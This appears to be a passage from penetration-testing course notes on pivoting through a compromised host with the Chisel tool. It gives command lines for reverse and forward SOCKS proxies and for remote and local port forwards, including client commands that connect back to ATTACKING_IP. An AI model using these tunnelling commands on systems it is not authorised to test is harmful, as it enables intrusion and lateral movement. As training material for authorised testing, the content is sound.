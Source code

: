 [Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality as the standard SSH proxying / port forwarding we covered earlier; however, the fact it doesn't require SSH access on the compromised target is a big bonus.  

Before we can use chisel, we need to download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal:


`scp -i KEY chisel user@target:/tmp/chisel-USERNAME`

The chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: `chisel client|server --help`

#### Reverse SOCKS Proxy:
On our own attacking box we would use a command that looks something like this:  
`./chisel server -p LISTEN_PORT --reverse &`

This sets up a listener on your chosen `LISTEN_PORT`.  

On the compromised host, we would use the following command:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`


####  **Forward SOCKS Proxy:**

First, on the compromised host we would use:  
`./chisel server -p LISTEN_PORT --socks5`  

On our own attacking box we would then use:  
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`  

In this command, `PROXY_PORT` is the port that will be opened for the proxy.

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.


#### _**Remote Port Forward:**_
For a remote port forward, on our attacking machine we use the exact same command as before:  
`./chisel server -p LISTEN_PORT --reverse &`

Once again this sets up a chisel listener for the compromised host to connect back to.  
The command to connect back is slightly different this time, however:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the target port, separated by colons. Note the distinction between the `LISTEN_PORT` and the `LOCAL_PORT`. Here the `LISTEN_PORT` is the port that we started the chisel server on, and the `LOCAL_PORT` is the port we wish to open on our own attacking machine to link with the desired target port.  

To use an old example, let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:  
`./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`  

Connecting back to our attacking machine, functioning as a chisel server started with:  
`./chisel server -p 1337 --reverse &`  

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222


#### __**Local Port Forward:**_  
_As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:  
`./chisel server -p LISTEN_PORT`  

We now connect to this from our attacking machine like so:  
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`  

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:  
`./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

As with the backgrounded socat processes, when we want to destroy our chisel connections we can use `jobs` to see a list of backgrounded jobs, then `kill %NUMBER` to destroy each of the chisel processes.

_**Note:** When using Chisel on Windows, it's important to remember to upload it with a file extension of_ `.exe` _(e.g._ `chisel.exe`_)!_